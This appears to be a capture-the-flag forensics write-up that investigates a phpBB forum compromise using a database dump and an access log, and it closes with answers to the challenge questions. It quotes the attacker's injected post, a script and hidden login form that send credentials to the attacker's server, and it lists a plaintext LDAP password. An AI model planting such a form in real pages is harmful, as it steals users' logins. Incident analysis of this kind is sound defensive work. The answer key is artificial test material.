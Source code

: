 # Bumblebee

## Speech
```
An external contractor has accessed the internal forum here at Forela via the Guest Wi-Fi, and they appear to have stolen credentials for the administrative user! We have attached some logs from the forum and a full database dump in sqlite3 format to help you in your investigation.
```

## Analysis

We have logs and sqlite, I'll begin with sqlite maybe I can find username/login log/ip info on the attacker before diving in the logs.

### phpbb.sqlite3
1. I open the file with sqlitebrowser, then I go in *Browse Data" and i'll begin with the table phpbb_users
    - Here we go :
    ![PHPBB users](../../img/bumblebee/01_phpbb_users.png)
    - We have 6 interesting users (the first one is at the top so we don't see it on this screenshot and is admin), for the 5 others the two most interesting are *apoole* and apoole1*, one of those is our attacker because they both have *contractor.net* for email domain, so it's they are our contractor :)
    - The ip is also interesting *10.10.0.78*
    - When we look at the *user_lastvisit* and *user_lastpost_time* we see that *apoole* has 0 as last visit so probably never visit (I think phpbb put 0 for never visited), so the attacker is probably *apoole1*
2. Because *Apoole1* is our principal suspect and he post something let's take a look at his post, go in the table *phpbb_posts*
    - The *post_id* 9 is done by *apoole1* (same IP)
    - Here is the post of the attacker : (I get rid of most of the code, I keep the script and the form, to see where the data are sent), this script is a stealer, this post send data to the update.php of the attacker (the ip of the attacker)
    ```
    <div>
    <script type="text/javascript">
        function sethidden() {
        const d = new Date();
        d.setTime(d.getTime() + (24 * 60 * 60 * 1000));
        let expires = "expires=" + d.toUTCString();
        document.cookie = "phpbb_token=1;" + expires + ";";
        var modal = document.getElementById('zbzbz1234');
        modal.classList.add("hidden");
        }
        document.addEventListener("DOMContentLoaded", function(event) {
        let cookieexists = false;
        let name = "phpbb_token=";
        let cookies = decodeURIComponent(document.cookie);
        let ca = cookies.split(';');
        for (let i = 0; i < ca.length; i++) {
            let c = ca[i];
            while (c.charAt(0) == ' ') {
            c = c.substring(1);
            }
            if (c.indexOf(name) == 0) {
            cookieexists = true;
            }
        }
        if (cookieexists) {
            return;
        }
        var modal = document.getElementById('zbzbz1234');
        modal.classList.remove("hidden");
        });
    </script>
    <form action="http://10.10.0.78/update.php" method="post" id="login" data-focus="username" target="hiddenframe">
    ```
3. In phpbb_config we can see the *auth_method* is *db_or_ldap* so users can connect via LDAP, still in the *phpbb_config** we have LDAP credentials!
4. In the *phpbb_log* table
    - we have interesting logs :
    ![phpbb logs](../../img/bumblebee/02_phpbb_logs.png)
    - The attacker (his ip) added the account *apoole* to the administratos group and he login as admin (at 26/04/2023 10:53:12, the time in the db is an epoch)
    - On the last line we see he made a backup of the DB
5. In the *phpbb_sessions* table
   - We have the session of the administrator
   ![admin session](../../img/bumblebee/03_admin_session.png)
6. Looks like they are nothing more in this DB

### Access.log
1. Not a lot to get in this file, a lot of noise, I filtered some little things but we don't learn much, some of my filter was : `cat -n access.log | grep 10.10.0.78 | grep POST` (To see what the attacker send to the website), `cat -n access.log | grep 10.10.0.78 | grep login` (to see the login)
2. At the end we can see the download of the DB backup (line 695) :
    - `10.10.0.78 - - [26/Apr/2023:12:01:38 +0100] "GET /store/backup_1682506471_dcsr71p7fyijoyq8.sql.gz HTTP/1.1" 200 34707 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0"`

## Questions
1. What was the username of the external contractor?
    - apoole1 (cf. Analysis>phpbb.sqlite3>1)
2. What IP address did the contractor use to create their account?
    - 10.10.0.78 (cf. Analysis>phpbb.sqlite3>1)
3. What is the post_id of the malicious post that the contractor made?
    - 9 (cf. Analysis>phpbb.sqlite3>2)
4. What is the full URI that the credential stealer sends its data to?
    - http://10.10.0.78/update.php (cf. Analysis>phpbb.sqlite3>2)
5. When did the contractor log into the forum as the administrator? (UTC)
    - 26/04/2023 10:53:12 (cf. Analysis>phpbb.sqlite3>4)
6. In the forum there are plaintext credentials for the LDAP connection, what is the password?
    - Passw0rd1 (cf. Analysis>phpbb.sqlite3>3)
7. What is the user agent of the Administrator user?
    - Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36 (cf. Analysis>phpbb.sqlite3>5)
8. What time did the contractor add themselves to the Administrator group? (UTC)
    - 26/04/2023 10:53:51 (cf. Analysis>phpbb.sqlite3>4)
9. What time did the contractor download the database backup? (UTC)
    - 26/04/2023 11:01:38 (cf. Analysis>access.log>2)
10. What was the size in bytes of the database backup as stated by access.log?
    - 34707 (cf. Analysis>access.log>2)